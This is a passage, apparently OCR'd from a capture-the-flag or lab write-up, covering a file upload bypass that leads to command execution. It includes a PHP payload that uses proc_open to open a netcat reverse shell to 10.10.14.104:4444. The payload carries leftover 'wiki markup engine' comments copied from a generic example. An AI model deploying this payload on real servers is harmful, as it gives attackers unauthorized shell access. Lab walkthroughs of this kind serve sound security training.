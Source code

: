 	// spawn the process
	$p = proc_open($cmd, $desc, $pipes);
	
	// send the wiki content as input to the markup engine 
	// and then close the input pipe so the engine knows 
	// not to expect more input and can start processing
	fwrite($pipes[0], $content);
	fclose($pipes[0]);
	
	// read the output from the engine
	$html = stream_get_contents($pipes[1]);
	
	// all done! Clean up
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($p);
	?>
	http://example.com
	http://example.com
	http://example.com
	more URLs
	```
6. Demo - File Upload Bypass -> Command Execution Test
	![](Cm6N6neOQi.gif)
	> Ping returned !
	{: .prompt-info }
7. Invoke reverse shell
	```
	# Payload
	<?php
	// descriptor array
	$desc = array(
	    0 => array('pipe', 'r'), // 0 is STDIN for process
	    1 => array('pipe', 'w'), // 1 is STDOUT for process
	    2 => array('file', '/tmp/error-output.txt', 'a') // 2 is STDERR for process
	);
	
	// command to invoke markup engine
	$cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.104 4444 >/tmp/f";
	
	// spawn the process
	$p = proc_open($cmd, $desc, $pipes);
	
	// send the wiki content as input to the markup engine 
	// and then close the input pipe so the engine knows 
	// not to expect more input and can start processing
	fwrite($pipes[0], $content);
	fclose($pipes[0]);
	
	// read the output from the engine
	$html = stream_get_contents($pipes[1]);
	
